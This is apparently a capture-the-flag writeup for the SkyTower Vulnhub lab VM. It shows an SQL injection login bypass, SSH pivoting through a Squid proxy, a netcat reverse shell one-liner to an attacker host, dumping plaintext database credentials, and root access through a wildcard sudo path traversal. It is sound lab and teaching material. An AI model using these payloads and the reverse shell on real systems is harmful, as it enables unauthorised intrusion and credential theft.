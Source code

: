 ﻿## Skytower Writeup
 
Todays it's Skytower by Telspace which you can find over at Vulnhub, https://www.vulnhub.com/entry/skytower-1,96/

Start off with the usual nmap scan and checkout what's going on.

```
nmap -v -sV -sC 192.168.56.101
```
```
Nmap scan report for 192.168.56.101
Host is up (0.00013s latency).
Not shown: 997 closed ports
PORT     STATE    SERVICE    VERSION
22/tcp   filtered ssh
80/tcp   open     http       Apache httpd 2.2.22 ((Debian))
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.2.22 (Debian)
|_http-title: Site doesn't have a title (text/html).
3128/tcp open     http-proxy Squid http proxy 3.1.20
|_http-server-header: squid/3.1.20
|_http-title: ERROR: The requested URL could not be retrieved
MAC Address: 08:00:27:54:4A:37 (Oracle VirtualBox virtual NIC)
```
Looks like a Squid, a webserver, and ssh. Checking out the website we see this Skytech Login form.

![](pics/1.PNG)

First we try admin' in the input box and it shows us a sql error.
```
There was an error running the query [You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''''' at line 1]
```
So we try doing the usual login bypasses like ' OR 1=1# and get nothing. Checking the error message again it seems that OR is being filtered out.
```
curl --data "email=admin&password=' OR 1=1#" http://192.168.56.101/login.php
There was an error running the query [You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '11#'' at line 1]
```
After awhile we replace the OR with || instead and it works we get logged in as the user john.
```
curl --data "email=admin&password=' || 1=1#" http://192.168.56.101/login.php
```

![](pics/2.PNG)

OK then we have some creds for the ssh that's behind this proxy. The next step is setup our /etc/proxychains.conf to use the http proxy on port 3128 and we can ssh into the box.
```
root@kali:~/machines/skytower# proxychains ssh john@192.168.56.101
ProxyChains-3.1 (http://proxychains.sf.net)
|S-chain|-<>-192.168.56.101:3128-<><>-192.168.56.101:22-<><>-OK
The authenticity of host '192.168.56.101 (192.168.56.101)' can't be established.
ECDSA key fingerprint is SHA256:QYZqyNNW/Z81N86urjCUIrTBvJ06U9XDDzNv91DYaGc.
Are you sure you want to continue connecting (yes/no)? yes
Warning: Permanently added '192.168.56.101' (ECDSA) to the list of known hosts.
john@192.168.56.101's password:
Linux SkyTower 3.2.0-4-amd64 #1 SMP Debian 3.2.54-2 x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Sun Mar 18 15:08:41 2018

Funds have been withdrawn
Connection to 192.168.56.101 closed.
```
Umm maybe not then, we lose our $2 and get booted? That's not good but we can still run commands over ssh, so let's get a quick shell with netcat.
```
root@kali:~/machines/skytower# proxychains ssh john@192.168.56.101 nc 192.168.56.102 443 -e /bin/sh
ProxyChains-3.1 (http://proxychains.sf.net)
|S-chain|-<>-192.168.56.101:3128-<><>-192.168.56.101:22-<><>-OK
john@192.168.56.101's password:

───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
root@kali:~# nc -nlvp 443
listening on [any] 443 ...
connect to [192.168.56.102] from (UNKNOWN) [192.168.56.101] 40670
id
uid=1000(john) gid=1000(john) groups=1000(john)
```
And we have no python so it seems like we might be stuck in this crappy shell. No worries though moving forward we can see a couple more users on the box, but we can't look at their home folders. So we check out the login.php page from /var/www and it appears to give us the mysql password.
```
$db = new mysqli('localhost', 'root', 'root', 'SkyTech');
```
We can also see the filtering that is happening from before that wouldn't allow us to use OR operators.
```
$sqlinjection = array("SELECT", "TRUE", "FALSE", "--","OR", "=", ",", "AND", "NOT"); 
$email = str_ireplace($sqlinjection, "", $_POST['email']); 
$password = str_ireplace($sqlinjection, "", $_POST['password']);
```

So with this crap shell we can't explore the Mysql very easily but we can exec one command at a time like we've been doing. 
```
mysql -uroot -proot -e 'show databases;'
Database
information_schema
SkyTech
mysql
performance_schema
mysql -uroot -proot -e 'use SkyTech; show tables;'
Tables_in_SkyTech
login
mysql -uroot -proot -e 'use SkyTech; show tables; select * from login;'
Tables_in_SkyTech
login
id      email   password
1       john@skytech.com        hereisjohn
2       sara@skytech.com        ihatethisjob
3       william@skytech.com     senseable
```
Good stuff. William's password doesn't seem to work, but we login as Sara and get booted as usual. We setup a listener and get a shell like before then notice we can run a couple of commands as root which are configured horribly with wildcard characters.
```
root@kali:~# nc -nlvp 443
listening on [any] 443 ...
connect to [192.168.56.102] from (UNKNOWN) [192.168.56.101] 40684
sudo -l
Matching Defaults entries for sara on this host:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User sara may run the following commands on this host:
    (root) NOPASSWD: /bin/cat /accounts/*, (root) /bin/ls /accounts/*
```
So the accounts folder is empty, lets try cating the root flag with some path traversal should be easy enough.
```
sudo cat /accounts/../../../../../../root/flag.txt
Congratz, have a cold one to celebrate!
root password is theskytower
```
Awesome let's get our root shell then.
```
root@kali:~/machines/skytower# proxychains ssh root@192.168.56.101
ProxyChains-3.1 (http://proxychains.sf.net)
|S-chain|-<>-192.168.56.101:3128-<><>-192.168.56.101:22-<><>-OK
root@192.168.56.101's password:
Linux SkyTower 3.2.0-4-amd64 #1 SMP Debian 3.2.54-2 x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Sun Mar 18 16:30:19 2018 from 192.168.56.101
root@SkyTower:~# id
uid=0(root) gid=0(root) groups=0(root)
```
That was a lot of fun, thanks a bunch @telspacesystems for making this one and @VulnHub for all the challenges.
 

